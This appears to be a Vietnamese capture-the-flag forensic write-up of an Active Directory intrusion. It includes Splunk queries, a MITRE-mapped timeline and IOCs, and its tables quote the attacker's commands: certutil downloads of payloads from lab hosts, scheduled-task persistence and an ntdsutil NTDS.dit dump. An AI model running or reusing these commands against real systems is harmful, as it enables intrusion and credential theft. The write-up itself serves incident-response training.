Trong S4U2Self, service có thể chủ động đề nghị KDC cấp ticket mang danh tính một user **mà không cần user vừa xác thực tới service đó**. Thông tin user cần mạo danh được chỉ định trong trường `PA-FOR-USER.userName` đính kèm trong request Kerberos:
```text
PA-FOR-USER ::= SEQUENCE {
    userName      [0] PrincipalName,
    userRealm     [1] Realm,
    cksum         [2] Checksum,
    auth-package  [3] KerberosString
}
```

### 2.1. WMI Remote Execution và Post-Exploitation

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="DC01" earliest="08/04/2025:19:00:00" EventCode=1 parent_process_path=*WmiPrvSE.exe
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time
```





Các lệnh đáng ngờ trên DC01 đều được khởi chạy từ process `WmiPrvSE.exe` với output của lệnh được chuyển hướng vào 1 tệp với tên ngẫu nhiên trong ADMIN$ share. Đây là dấu hiệu đặc trưng của công cụ `wmiexec.py` thuộc bộ công cụ Impacket

Những lệnh trên DC01 được thực thi dưới danh tính `Administrator` với Integrity Level High:

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 2025-08-04 19:41:58 | `cd` | — |
| 2025-08-04 19:41:58 | `cd \` | — |
| 2025-08-04 19:42:01 | `whoami` | Kiểm tra user hiện tại. |
| 2025-08-04 19:42:19 | `cd` | — |
| 2025-08-04 19:42:19 | `cd c:\programdata` | Chuyển thư mục làm việc hiện tại sang `c:\programdata`. |
| 2025-08-04 19:42:34 | `certutil -urlcache -split -f http://10.10.5.199/cache.cab C:\\ProgramData\\cache.cab` | Lạm dụng binary hợp lệ `certutil` tải payload `cache.cab` từ `http://10.10.5.199/cache.cab` về thư mục `C:\ProgramData\`. |
| 2025-08-04 19:42:47 | `"C:\Program Files\7-Zip\7z.exe" x cache.cab -oC:\ProgramData\schcache` | Dùng 7-Zip giải nén `cache.cab` ra thư mục `C:\ProgramData\schcache`. |
| 2025-08-04 19:43:20 | `cd` | — |
| 2025-08-04 19:43:20 | `cd \` | — |
| 2025-08-04 19:43:27 | `cd c:\programdata` | — |
| 2025-08-04 19:43:28 | `cd` | — |
| 2025-08-04 19:43:31 | `"C:\Program Files\7-Zip\7z.exe" x cache.cab -oC:\ProgramData\schcache` | Thực hiện giải nén lần 2. |
| 2025-08-04 19:44:12 | `cd \` | — |
| 2025-08-04 19:44:13 | `cd` | — |
| 2025-08-04 19:44:20 | `cd` | — |
| 2025-08-04 19:44:20 | `cd c:\programdata` | — |
| 2025-08-04 19:44:23 | `"C:\Program Files\7-Zip\7z.exe" x cache.cab -oC:\ProgramData\schcache` | Thực hiện giải nén lần 3. |

#### 2.1.1. `cache.cab` và Scheduled Task `Wow64 Subsystem`

MFT trên DC01 cho biết tệp cab trên giải nén ra thư mục `schcache` trong đó chứa 1 binary là `mswow86.exe`:


| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 2025-08-04 19:44:35 | `schtasks.exe /create /sc onlogon /tn "Wow64 Subsystem" /rl highest /tr "C:\ProgramData\schcache\mswow86.exe"` | Tạo task "Wow64 Subsystem" chạy image "C:\ProgramData\schcache\mswow86.exe" với quyền hạn cao nhất của user mỗi khi logon |
| 2025-08-04 19:45:22 | `cd` | — |
| 2025-08-04 19:45:22 | `cd \` | — |
| 2025-08-04 19:45:25 | `schtasks.exe /create /sc onlogon /tn "Wow64 Subsystem" /rl highest /tr "C:\ProgramData\schcache\mswow86.exe"` | Chạy lại lệnh tạo task trên một lần nữa. |

Disk artefact trong `C:\Windows\System32\Tasks` xác nhận `Wow64 Subsystem` đã được tạo thành công:


#### 2.1.2. PingCastle — AD Reconnaissance

- **2025-08-04 19:46:23** — `certutil -urlcache -split -f http://10.10.5.195/PingCastle.exe C:\Windows\Temp\PingCastle.exe`
  - Dùng certutil tải PingCastle.exe về thư mục C:\Windows\Temp\

- **2025-08-04 19:46:42** — `certutil -urlcache -split -f http://10.10.5.199/PingCastle.exe C:\Windows\Temp\PingCastle.exe`
  - Chạy lại lệnh vừa rồi 1 lần nữa

- **2025-08-04 19:47:20** — `C:\Windows\Temp\PingCastle.exe --healthcheck --level Full`
Attacker khởi chạy `PingCastle.exe --healthcheck --level Full` để đánh giá bảo mật Active Directory; bản thân PingCastle là công cụ quản trị hợp lệ, nhưng ở đây được thực thi trong chuỗi post-exploitation.

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 2025-08-04 19:46:23 | `certutil -urlcache -split -f http://10.10.5.195/PingCastle.exe C:\Windows\Temp\PingCastle.exe` | Dùng `certutil` tải `PingCastle.exe` về thư mục `C:\Windows\Temp\`. |
| 2025-08-04 19:46:42 | `certutil -urlcache -split -f http://10.10.5.199/PingCastle.exe C:\Windows\Temp\PingCastle.exe` | Chạy lại lệnh trên một lần nữa. |
| 2025-08-04 19:47:20 | `C:\Windows\Temp\PingCastle.exe --healthcheck --level Full` | Attacker khởi chạy `PingCastle.exe` với 2 cờ --healthcheck và --level Full. |

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="DC01" earliest="08/04/2025:19:40:00" {97C502F8-0E48-6891-3610-000000009903} EventCode=7
| table _time process_exec ImageLoaded Hashes
| sort _time
```


Hash của PingCastle.exe:
- SHA1=1F98C1A6CEE744BE2E1774B22573930DDCC8B4D6
- MD5=9FB8F599C1979CE9AA2957DC99C1493D
- SHA256=BA17CB0EEBB8DBBB82D0C233C7CEFC39D48F3AF7C40D385C17B4AD441301481E
- IMPHASH=F34D5F2D4577ED6D9CEEC516C1F5A744

**Virustotal:**



Kết quả VirusTotal cho thấy `PingCastle.exe` là công cụ kiểm tra cấu hình bảo mật Active Directory hợp lệ. Tuy nhiên, phần mềm này thường bị hệ thống bảo mật cảnh báo hoặc bị chính attacker lợi dụng như trong incident này. Ý nghĩa các cờ của câu lệnh:
  - Cờ healthcheck: Đánh giá và chấm điểm rủi ro bảo mật của một domain AD
  - Cờ --level full: mức độ thu thập cao nhất dùng để output chi tiết đầy đủ (bao gồm cả dữ liệu cá nhân/chi tiết nhạy cảm) vào các file báo cáo và file XML được tạo ra

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="DC01" earliest="08/04/2025:19:40:00" {97C502F8-0E48-6891-3610-000000009903} EventCode=22
| table _time process_exec QueryName QueryResults
| sort _time
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="DC01" earliest="08/04/2025:19:40:00" {97C502F8-0E48-6891-3610-000000009903} EventCode=3
| table _time process_exec DestinationIp DestinationPort
| sort _time
```





Khoảng 2025-08-04 19:47:21, sysmon event id 3 ghi nhận process `PingCastle.exe` (PID = 5764) giao tiếp với DC01 qua các port 9389 (AD Web Services) và 389 (LDAP), cho thấy binary này đang thực hiện domain reconnaissance trong quá trình chạy.

MFT trên DC01 ghi nhận hai tệp report `ad_hc_corp.lab.html` và `ad_hc_corp.lab.xml` được tạo sau khi PingCastle chạy, cung cấp bằng chứng về kết quả của hoạt động đánh giá bảo mật AD:


#### 2.1.3. Domain account `localend`

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 2025-08-04 19:57:01 | `certutil -urlcache -split -f http://10.10.5.199/install.exe C:\Users\Administrator\Documents\createuser.exe` | Khoảng 10 phút sau giai đoạn PingCastle, attacker dùng `certutil` tải `install.exe` từ `10.10.5.199`, lưu dưới tên `C:\Users\Administrator\Documents\createuser.exe`. |
| 2025-08-04 19:57:19 | `C:\Users\administrator\Documents\createuser.exe` | Chạy binary `createuser.exe`. |

```spl
index=main source="XmlWinEventLog:Security" host="DC01" earliest="08/04/2025:19:57:19" latest="08/04/2025:19:59:00" EventCode=4720
| table _time SubjectUserSid SubjectUserName SubjectDomainName SubjectLogonId TargetSid TargetUserName TargetDomainName SamAccountName UserPrincipalName DisplayName PasswordLastSet AccountExpires PrimaryGroupId AllowedToDelegateTo OldUacValue NewUacValue UserAccountControl ScriptPath UserWorkstations SidHistory
```


Ngay sau khi `createuser.exe` được khởi chạy, event id 4720 trên DC01 ghi nhận domain user mới có tên là `localend` được tạo ra tuy nhiên chưa có bằng chứng trong log cho thấy user này được thêm vào bất kì nhóm bảo mật nào.

#### 2.1.4. NTDS collection và ZIP staging

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 2025-08-04 19:59:03 | `certutil -urlcache -split -f http://10.10.5.199/1.bat C:\Users\Public\Desktop\1.bat` | Tải batch script `1.bat` vào thư mục Desktop của Public user. |
| 2025-08-04 19:59:21 | `C:\Users\Public\Public\Desktop\1.bat` | Chạy batch script này. |

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="DC01" earliest="08/04/2025:19:40:00" {97C502F8-1119-6891-0A11-000000009903} EventCode=1
| table _time parent_process_id CommandLine
```


Process tree liên quan tới script `1.bat` cho thấy công cụ `ntdsutil` bị lạm dụng bởi attacker để tạo bản sao dữ liệu tệp cơ sở dữ liệu AD (NTDS.dit). 

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 2025-08-04 19:59:44 | `powershell -c Compress-Archive -Path C:\Users\Public\ntdsutil -DestinationPath C:\INFO_20250730.zip` | Sau khi có output, attacker chạy lệnh powershell nhằm nén thư mục chứa thông tin NTDS.dit vừa đánh cắp được thành tệp zip C:\INFO_20250730.zip, nhiều khả năng attacker chuẩn bị gửi dữ liệu ra ngoài |

MFT trên DC01 ghi nhận `ntds.dit` cùng các registry hives `SECURITY` và `SYSTEM` đã được dump thành công ra thư mục ntdsutil:


### 2.2. Các artefact bổ sung từ disk

Một số artefact chỉ được tìm thấy từ disk evidence, không xuất hiện đầy đủ trong windows logs được truy vấn:
**Q2: Using filesystem artifacts, identify the name of the ZIP archive that was created shortly after the initial PowerShell execution.** -> bFylC6zX.zip
Dựa vào trường CreatedTime trong MFT và các filter phù hợp ta xác định được tệp được drop ngay sau khi câu lệnh powershell độc hại ban đầu được thực thi là bFylC6zX.zip, có khả năng tệp zip này chứa payload set-up.exe 


**Q15: While investigating token activity, you found that the attacker accessed user credentials from a messaging app’s cache file. What is the name of this file?** -> `token000005.ldb` (Last Access time cho thấy tệp này được truy cập trong thời điểm hoạt động của attacker trên PC01)


# Incident Timeline – CredSnare / Angry Likho APT Lab

| Timestamp | Tactic | Technique ID | Technique / Sub-technique | Bằng chứng liên quan |
|---|---|---|---|---|
| 2025-08-04 18:38:01–18:38:51 | Initial Access / Execution | T1204.004 | User Execution: Malicious Copy and Paste | **PC01:** Chrome History ghi nhận user truy cập 1 trang với title *Verify You Are Human* (`muahmmedshahblis.github.io/blabla/`), sau đó key RunMRU và sysmon event id 1 ghi nhận vào khoảng 18:38:51 cho thấy 1 lệnh powershell được thực thi qua hộp thoại Run. |
| 2025-08-04 18:38:51–18:39:15 | Execution / Command and Control | T1059.001 / T1105 | PowerShell / Ingress Tool Transfer | **PC01:** `explorer.exe → powershell.exe`; Lệnh powershell độc hại ban đầu tải và chạy script `win15.ps1` từ `10.10.5.199`, tạo `set-up.exe` lúc 18:39:14 rồi khởi chạy lúc 18:39:15 (Sysmon 1, 3, 11; Security 4688). |
| 2025-08-04 18:39:16 | Persistence | T1547.001 | Registry Run Keys / Startup Folder | **PC01:** Sysmon 13 ghi nhận giá trị `5TQjtTuo` được thêm vào Run Key trong hive HKCU với giá trị =  `C:\Users\william\AppData\Roaming\7oCDTWYu\set-up.exe`. |
| 2025-08-04 18:39:16 | Defense Evasion / Execution | T1197 / T1059.003 | BITS Jobs / Windows Command Shell | **PC01:** Attacker tạo BITS job tải `Hose.cmd` từ `10.10.5.199/payload/hose.cmd` về `C:\ProgramData\Hose.cmd`. Sau đó khởi chạy qua lệnh `cmd.exe /c C:\ProgramData\Hose.cmd` (Sysmon 1). |
| 2025-08-04 18:39:17–18:39:24 | Discovery / Command and Control | T1518.001 / T1105 | Security Software Discovery / Ingress Tool Transfer | **PC01:** `Hose.cmd` chạy `tasklist` và `findstr /I "wrsa opssvc"` nhằm kiểm tra phần mềm bảo mật; tải tám phần payload qua powershell rồi ghép thành `suggests.a3x` (Sysmon 1, MFT). |
| 2025-08-04 18:40:15–18:40:17 | Discovery | T1018 | Remote System Discovery | **PC01:** `set-up.exe` thực hiện truy vấn DNS `DC01/CORP.lab` lấy ip DC (Sysmon 22) và kết nối tới `10.10.11.155:135` (Sysmon 3) |
| 2025-08-04 18:44:02–18:46:26 | Discovery / Credential Access | T1033 / T1087.002 / T1069.002 / T1016 / T1057 / T555.004 | System Owner/User Discovery / Domain Account Discovery / Domain Groups / System Network Configuration Discovery / Process Discovery / Credentials from Password Stores: Windows Credential Manager | **PC01:** `set-up.exe` chạy lệnh `whoami /all`, `net user /domain`, `net group "Domain Admins" /domain`, `cmdkey /list`, `ping DC01`, `arp -a`, `tasklist | find ssh` và truy vấn SYSVOL (Sysmon 1). |
| 2025-08-04 18:48:35–18:53:45 | Stealth, Execution | T1574.001 / T1218 | Hijack Execution Flow: DLL Side-Loading / System Binary Proxy Execution: Rundll32 | **PC01:** Dll giả mạo `DismCore.dll` được đặt trong `C:\Users\Public`, `Dism.exe` được sao chép vào cùng thư mục rồi thực thi, sau đó, chạy process con rundll32.exe (15468) (Sysmon 7, Sysmon 1). |
| 2025-08-04 18:53:46–18:53:47 | Command and Control | - | - | **PC01:** `rundll32.exe` ((15468)) kết nối tới `10.10.5.195` trên 2 port 1337 và 9900, đồng thời giao tiếp RPC với DC01 (Sysmon 3). |
| 2025-08-04 18:54:51 | Persistence | T1053.005 | Scheduled Task/Job: Scheduled Task | **PC01:** `schtasks.exe /create /sc onlogon /tn DISMCORE /rl highest /tr C:\Users\Public\Dism.exe`; artefact trong thư mục `C:\Windows\System32\Tasks` xác nhận task `DISMCORE` được tạo. |
| 2025-08-04 18:55:14–19:00:53 | Discovery | T1087.002 | Account Discovery: Domain Account | **PC01:** Attacker nhiều lần chạy powershell tải `MSOfficeSyncService.ps1` / `PowerView.ps1` và gọi `Get-NetUser -TrustedToAuth` để tìm các domain account có bật tính năng protocol-transition delegation (Sysmon 1). |
| 2025-08-04 19:03:41 | Credential Access | T1003.001 | OS Credential Dumping: LSASS Memory | **PC01:** Sysmon 10 ghi nhận `set-up.exe` truy cập `lsass.exe`. |
| 2025-08-04 19:41:46 | Lateral Movement | - | - | **DC01:** Attacker lạm dụng tính năng protocol transition nhằm giả mạo user Administrator truy cập DC01 (Security 4624/4768/4769). |
| 2025-08-04 19:41:58–19:42:01 | Lateral Movement / Execution | T1047 | Windows Management Instrumentation | **DC01:** Attacker sử dụng công cụ `wmiexec.py` để thực thi lệnh từ xa trên DC01 (Sysmon 1). |
| 2025-08-04 19:42:34–19:43:31 | Command and Control | T1105 | Ingress Tool Transfer | **DC01:** Attacker dùng `certutil` tải tệp `cache.cab` về `C:\ProgramData`, giải nén ra thư mục `C:\ProgramData\schcache`. MFT ghi nhận `mswow86.exe` trong thư mục output (Sysmon 1, MFT). |
| 2025-08-04 19:44:35–19:45:25 | Persistence | T1053.005 | Scheduled Task/Job: Scheduled Task | **DC01:** Hai lần chạy lệnh tạo task `Wow64 Subsystem` để chạy `C:\ProgramData\schcache\mswow86.exe`. Disk artefact xác nhận task tồn tại. |
| 2025-08-04 19:46:23–19:47:21 | Discovery | - | - | **DC01:** Attacker dùng `certutil` tải và thực thi công cụ `PingCastle.exe` lúc 19:47:20. (Sysmon 1/3, MFT trên DC)|
| 2025-08-04 19:57:01–19:57:19 | Persistence | T1136.002 | Create Account: Domain Account | **DC01:** Tiếp tục dùng `certutil` tải `install.exe` dưới tên `createuser.exe`, sau đó thực thi; Security 4720 ghi nhận việc sự kiện domain account `localend` (Sysmon 1, Security 4720).  |
| 2025-08-04 19:59:03–19:59:21 | Credential Access / Collection | T1003.003 / T1005 | OS Credential Dumping: NTDS / Data from Local System | **DC01:** Attacker dùng công cụ `ntdsutil` để dump NTDS.dit cùng với 2 hive SYSTEM và SECURITY để decrypt. |
| 2025-08-04 19:59:44 | Collection | T1560.001 | Archive Collected Data: Archive via Utility | **DC01:** Dùng powershell nén thư mục ntdsutil thành INFO_20250730.zip. |

# Indicators of Compromise (IOC)

| Loại | Giá trị |
|---|---|
| URL  | `https://muahmmedshahblis.github.io/blabla/` |
| URL  | `http://10.10.5.199/payload/win15.ps1` |
| URL  | `http://10.10.5.199/payload/hose.cmd` |
| IP:Port  | `10.10.5.199:80` |
| IP:Port  | `10.10.5.195:9001` |
| IP:Port  | `10.10.5.195:1337` |
| IP:Port  | `10.10.5.195:9900` |
| File  | `C:\Users\william\AppData\Roaming\7oCDTWYu\set-up.exe` |
| SHA256 — set-up.exe | `54FF153C79F9F26D5D0C32F3CD2273BC446B069718D3808F6231724B467FA6F9` |
| MD5 — set-up.exe | `233AA109B504538A08D9C14E0F021A30` |
| File  | `C:\Users\Public\DismCore.dll` |
| SHA256 — DismCore.dll | `83B98B9E32630816DD3066266F9BC5BB76EAE1D61913C8B775F8A74BB82C0433` |
| File  | `C:\ProgramData\Hose.cmd` |
| File  | `suggests.a3x` |
| Registry Run Value | `5TQjtTuo` |
| Scheduled Task | `DISMCORE` |
| Scheduled Task | `Wow64 Subsystem` |
| File  | `C:\ProgramData\schcache\mswow86.exe` |
| File  | `C:\Users\Administrator\Documents\createuser.exe` |
| Domain Account — Created | `CORP\localend` |
| File Pth | `C:\INFO_20250730.zip` |
| Disk Artefact — ZIP | `bFylC6zX.zip` |
| Disk Artefact — Messaging cache | `token000005.ldb` |
